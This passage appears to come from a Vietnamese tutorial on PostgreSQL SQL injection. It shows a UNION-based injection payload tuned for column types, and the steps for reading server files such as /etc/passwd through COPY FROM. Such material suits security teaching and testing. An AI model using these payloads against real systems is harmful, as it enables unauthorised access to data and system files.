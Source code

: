 ##### **Khắc phục lỗi cột không khớp:**

- Nếu payload ban đầu trả về lỗi loại dữ liệu không khớp (VD: VARCHAR vs INTEGER), bạn cần sửa payload:
  - Xác định kiểu dữ liệu của các cột:
    - **VARCHAR:** `text`, `posted_at_nice`, `username`, `name`.
    - **INTEGER:** `author_id`.
  - Chỉnh sửa payload:
    ```sql
    ' UNION SELECT '1','2','3','4',5--
    ```

---


# 9. Đọc và Ghi Tệp với SQL Injection trong PostgreSQL

Trong phần này, chúng ta sẽ tìm hiểu hai phương pháp để đọc và ghi tệp từ và vào máy chủ thông qua khai thác SQL injection, đặc biệt là trong cơ sở dữ liệu **PostgreSQL**.

---

#### **Phương pháp 1: Sử dụng lệnh `COPY`**

Lệnh `COPY` trong PostgreSQL được thiết kế để nhập/xuất dữ liệu giữa bảng và tệp. Tuy nhiên, nó có thể bị lợi dụng để đọc và ghi tệp từ hệ thống tệp của máy chủ.

##### **Đọc tệp:**

Để đọc một tệp từ hệ thống tệp, ta có thể sử dụng cú pháp `COPY FROM` để sao chép dữ liệu từ tệp vào một bảng trong cơ sở dữ liệu. Ví dụ:

1. **Tạo bảng tạm**:
   ```sql
   CREATE TABLE tmp (t TEXT);
   ```

2. **Sao chép dữ liệu từ tệp** (ví dụ đọc `/etc/passwd`):
   ```sql
   COPY tmp FROM '/etc/passwd';
   ```

3. **Truy vấn dữ liệu**:
   ```sql
   SELECT * FROM tmp LIMIT 5;
   ```

4. **Xóa bảng tạm sau khi truy vấn**:
   ```sql
   DROP TABLE tmp;
   ```

Kết quả sẽ là nội dung của tệp `/etc/passwd` được đọc và hiển thị trong bảng tạm.

##### **Lỗi phân tách dữ liệu:**

Khi sử dụng `COPY`, dữ liệu trong tệp phải được phân tách bởi dấu phân cách (ví dụ: tab hoặc dấu phẩy). Nếu tệp không được định dạng phù hợp, bạn có thể gặp lỗi như sau:
```sql
ERROR: extra data after last expected column
```

